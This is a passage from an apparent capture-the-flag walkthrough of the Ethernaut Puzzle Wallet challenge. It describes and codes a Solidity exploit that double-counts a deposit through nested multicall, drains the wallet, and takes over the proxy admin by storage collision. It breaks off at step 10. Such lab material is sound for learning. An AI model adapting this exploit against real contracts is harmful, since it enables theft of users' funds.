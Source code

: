     - By depositing a total of 0.002 ether and tricking the contract into believing that 0.002 ether has been deposited, the contract balance and `balances` mapping will reflect this value.

    - Withdraw all the funds from the contract to set the balance to zero.

    - Change the `maxBalance` to your desired value to indirectly change the `admin`.

9. Implement the `PuzzleWalletSolution` contract to automate the exploit process:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "./PuzzleWallet.sol";

contract PuzzleWalletSolution {
    PuzzleProxy public puzzleProxy;
    PuzzleWallet public puzzleWallet;

    constructor(address puzzle) {
        puzzleProxy = PuzzleProxy(payable(puzzle));
        puzzleWallet = PuzzleWallet(puzzle);
    }

    function solveChallenge() public payable {
        puzzleProxy.proposeNewAdmin(address(this));
        puzzleWallet.addToWhitelist(address(this));

        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(
            puzzleWallet.deposit.selector
        );
        bytes[] memory functionCalls = new bytes[](2);
        functionCalls[0] = abi.encodeWithSelector(
            puzzleWallet.deposit.selector
        );
        functionCalls[1] = abi.encodeWithSelector(
            puzzleWallet.multicall.selector,
            depositSelector
        );

        uint256 targetBalance = msg.value;

        puzzleWallet.multicall{ value: targetBalance }(functionCalls);
        puzzleWallet.execute(msg.sender, 2 * targetBalance, "");
        puzzleWallet.setMaxBalance(uint256(uint160(msg.sender)));
    }
}
```

10. Using this contract, you can execute the `solveChallenge()` function to exploit the vulnerability. The steps executed by this contract include:
